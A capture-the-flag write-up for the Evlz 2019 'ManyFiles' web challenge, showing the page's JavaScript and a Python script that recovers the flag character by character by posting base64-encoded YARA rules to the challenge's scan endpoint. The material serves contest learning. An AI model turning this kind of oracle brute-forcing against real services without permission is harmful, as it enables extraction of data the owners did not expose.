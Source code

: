 # Evlz 2019 CTF - ManyFiles Write-Up (Web)
<!--Authors: OofedUp-->

```
Website http://13.232.233.247/scannie/

Author: chargE
```

Accessing the website, we are presented with the following page:

![screenshot-1](/assets/images/writeup/manyfiles-1.png)

On the left, we have a box where we can input some form of data and `Scan`, while on the right we have a Directory Listing.

When I first looked at the challenge, I figured the flag is somewhere hidden in the files listed, but I need to find a way to locate the specific file and read the flag from it. The page contains some interesting JavaScript for interacting with some APIs:

```javascript
// Swagger Conformant API
API_URL = 'http://13.232.233.247:1338'
LIST_DIR_URI = '/api/listdir'
SCAN_URI = '/api/scan'


const renderMessage = (id, message) => {
    let message_element = document.querySelector(id)
    message_element.innerHTML = `<h2>${message}</h2>`
}

const renderFileList = (id, file_list) => {
    let fileListDiv = document.querySelector(id)
    let file_list_html = `<table class='minimalistBlack'><tbody>`
    file_list_html += `<thead><tr><td>Files</td></tr></thead>`
    file_list.forEach(filename => {
        file_list_html += `<tr><td>${filename}</tr></td>`
    });
    file_list_html += `</tbody></table>`

    fileListDiv.innerHTML += file_list_html
}

const processListDirResponse = (data) => {
    if(!data.directory.length) {
        renderMessage('#fileList', 'No Files Found')
        return
    }

    renderFileList('#fileList', data.directory)

}

const processMatchResponse = (data) => {
    console.log(data)
    if(data.message)
        renderMessage('#matchList', data.message)
    if(!data.matches.length) {
        renderMessage('#matchList', 'No Matches Found')
        return
    }

    document.querySelector('#match-title').hidden = false
    renderFileList('#matchList', data.matches)
}   

const fetchFileList = () => {
    fetch(API_URL+LIST_DIR_URI
    ).then( (response) => {
        return response.json()
    }).then( (data) => {
        processListDirResponse(data)
    }).catch( (error) => {
        console.log("Couldn't fetch file")
        console.log(error)
    })
}

const fetchMatchList = (data) => {
    fetch(API_URL+SCAN_URI, {
        method: "POST", // *GET, POST, PUT, DELETE, etc.
        mode: "cors", // no-cors, cors, *same-origin
        headers: {
            "Content-Type": "application/json",
        },
        redirect: "follow", // manual, *follow, error
        referrer: "no-referrer", // no-referrer, *client
        body: JSON.stringify(data) // body data type must match "Content-Type" header
    }).then( (response) => {
        return response.json()
    }).then( (data) => {
        processMatchResponse(data)
    }).catch( (error) => {
        console.log("Couldn't fetch matches")
        console.log(error)
    })
}

const scanFiles = () => {
    event.preventDefault()
    document.querySelector('#matchList').innerHTML = ''
    let rule_src = document.querySelector('#rule').value
    let encoded_rule = btoa(rule_src)
    rule_json = {
        'rule': encoded_rule
    }
    fetchMatchList(rule_json)
}

fetchFileList();
```

We can now take a closer look at the `scan` endpoint. After further fuzzing and fiddling with the endpoint, I assumed it accepts [YARA](https://github.com/VirusTotal/yara) rules. Here's an example of a yara rule that searches the current directory for a file with a string matching `evlz{`:

```
rule AsciiExample {
strings:
	// A string to match -- default is ascii
	$ascii_string = "evlz{"

condition:
	// The condition to match
	$ascii_string
}
```

With this in mind, we can build a script that will build the flag one character at a time, by seeing if the string matches any of the files. It's similar to an SQL `LIKE` Injection. Here's the script that I used:

```python
#!/usr/bin/python
#Author : OofedUp - HTsP
import requests
import string
import base64
import time

alphabet = string.ascii_lowercase+"!\"#$%&'()*+,-./:;<=>?@[\\]^_`{|}~"

seed = "evlz{"
flag = seed

rulepre = """
rule AsciiExample {
strings:
	// A string to match -- default is ascii
	$ascii_string = \""""

rulepost = """\"

condition:
	// The condition to match
	$ascii_string
}
"""
while "ctf" not in flag:
    for c in alphabet:
        print c
        time.sleep(0.1)
        r = requests.post("http://13.232.233.247:1338/api/scan", data={"rule":base64.b64encode(rulepre+flag+c+rulepost)}).text
        if ("568.c" in r):
            flag += c
            print flag
            break

print "[+] Flag: "+flag
```

Result: `[+] Flag: evlz{yara_rules_are_great}ctf`
